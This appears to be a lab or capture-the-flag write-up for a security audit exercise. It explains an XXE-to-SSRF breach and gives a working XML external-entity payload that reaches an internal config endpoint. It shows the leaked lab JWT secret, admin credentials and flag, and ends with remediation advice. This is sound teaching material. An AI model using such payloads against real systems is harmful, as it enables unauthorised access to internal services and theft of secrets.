

# Breach 07 — XXE → SSRF

**OWASP:** A05:2021 – Security Misconfiguration / A10 – SSRF
**Flag:** `FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}`

## What it is
An XML parser with **external-entity resolution enabled** is a Server-Side
Request Forgery primitive: it can be made to fetch URLs from the *server's*
network position, including `localhost` services an external attacker cannot
reach. The deploy log admits `defusedxml` was "disabled temporarily."

## How the breach works
1. A `/staff/dashboard` hint points at an internal endpoint, `/internal/config`,
   which returns 403 to external callers.

   
   

2. The agenda accepts XML. We define an external entity pointing at the
   internal endpoint and echo it in a field:

   ```xml
   <!DOCTYPE agenda [ <!ENTITY xxe SYSTEM "http://127.0.0.1:4942/internal/config"> ]>
   <agenda><event><title>&xxe;</title><date>2042-01-15</date></event></agenda>
   ```

3. The parser resolves it **server-side** and reflects the internal config back:

   

   ```json
   {"jwt_secret":"42network","pb_admin_email":"admin@42network.local",
    "pb_admin_password":"Darkly42Admin!","app_version":"1.0.0",
    "campus":"wilcity","darkly_flag":"FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}"}
   ```

`./exploit.sh` uploads the crafted XML.

## Impact
The single most valuable request in the audit — it leaks the **JWT signing
secret** (weaponised in breach 12) *and* the **PocketBase admin credentials**
(weaponised in breach 08), collapsing the external/internal trust boundary.

## How it could have been avoided (remediation)
- **Re-enable `defusedxml`** (or disable DTD/entity processing entirely) in the
  XML parser.
- Egress-filter server-side HTTP so app processes cannot reach internal-only
  endpoints; never expose secrets through any server-reachable config route.
